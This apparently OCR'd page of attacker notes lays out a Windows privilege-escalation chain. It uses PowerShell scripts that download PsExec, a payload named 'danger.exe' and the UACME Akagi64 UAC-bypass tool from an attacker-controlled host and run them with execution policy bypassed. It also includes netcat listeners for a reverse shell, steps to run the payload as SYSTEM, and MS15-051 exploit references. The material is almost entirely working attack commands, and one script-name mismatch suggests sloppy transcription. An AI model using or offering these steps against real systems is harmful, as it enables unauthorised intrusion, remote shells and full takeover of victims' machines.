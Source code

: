 # upload psexec.exe file onto the victim machine with powershell script
echo $client = New-Object System.Net.WebClient > script.ps1
echo $targetlocation = "http://192.168.56.102/PsExec.exe" >> script.ps1
echo $client.DownloadFile($targetlocation,"psexec.exe") >> script.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1

# upload danger.exe file onto the victim machine with powershell script
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/danger.exe" >> script2.ps1
echo $client.DownloadFile($targetlocation,"danger.exe") >> script2.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script2.ps1

# UAC bypass from precompiled binaries:
https://github.com/hfiref0x/UACME

# upload https://github.com/hfiref0x/UACME/blob/master/Compiled/Akagi64.exe to victim pc with powershell
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/Akagi64.exe" >> script3.ps1
echo $client.DownloadFile($targetlocation,"Akagi64.exe") >> script3.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script3.ps1

# create listener on kali
nc -lvp 4444

# Use Akagi64 to run the danger.exe file with SYSTEM privileges
Akagi64.exe 1 C:\Users\User\Desktop\danger.exe

# create listener on kali
nc -lvp 4444

# The above step should give us a reverse shell with elevated privileges
# Use PsExec to run the danger.exe file with SYSTEM privileges
psexec.exe –i –d –accepteula –s danger.exe
Get SYSTEM with Standard user reverse_shell on Win7
https://technet.microsoft.com/en-us/security/bulletin/dn602597.aspx #ms15-051
https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html
https://www.exploit-db.com/exploits/37049/
